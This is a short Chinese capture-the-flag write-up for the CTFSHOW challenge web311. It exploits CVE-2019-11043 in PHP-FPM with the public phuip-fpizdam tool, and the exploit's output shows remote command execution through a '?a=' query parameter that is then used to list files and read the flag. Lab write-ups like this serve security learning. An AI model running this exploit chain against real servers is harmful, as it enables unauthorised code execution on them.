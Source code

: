 # CTFSHOW-phpCVE

---

### web311

> CVE-2019-11043

根据提示和相应我们可以去看一下7.1.33dev的漏洞

```http
HTTP/1.1 200 OK
Server: nginx/1.20.1
Date: Sun, 02 Feb 2025 07:28:02 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.1.33dev
Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Type,Cookies,Aaa,Date,Server,Content-Length,Connection
Access-Control-Allow-Headers: DNT,X-CustomHeader,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,Authorization,x-auth-token,Cookies,Aaa,Date,Server,Content-Length,Connection
Access-Control-Max-Age: 1728000
Content-Length: 28

where is flag?

<!-- cve-->
```

根据查询我们得到CVE-2019-11043的exp

https://github.com/neex/phuip-fpizdam

确保有go环境

```go
bx@bx-VMware-Virtual-Platform:~/桌面/ctf/WEB/EXP$ phuip-fpizdam https://b617e93d-44a0-44d4-a300-048b103ee7b2.challenge.ctf.show/index.php
2025/02/02 15:45:14 Base status code is 200
2025/02/02 15:45:37 Status code 502 for qsl=1765, adding as a candidate
2025/02/02 15:45:52 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2025/02/02 15:46:16 Attack params found: --qsl 1755 --pisos 45 --skip-detect
2025/02/02 15:46:16 Trying to set "session.auto_start=0"...
2025/02/02 15:46:37 Detect() returned attack params: --qsl 1755 --pisos 45 --skip-detect <-- REMEMBER THIS
2025/02/02 15:46:37 Performing attack using php.ini settings...
2025/02/02 15:46:56 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2025/02/02 15:46:56 Trying to cleanup /tmp/a...
2025/02/02 15:46:58 Done!
```

然后访问?a=<commond>

先是ls看一下

![image-20250202154819043](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20250202154819043.png)

最后cat flag

![image-20250202154859352](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20250202154859352.png)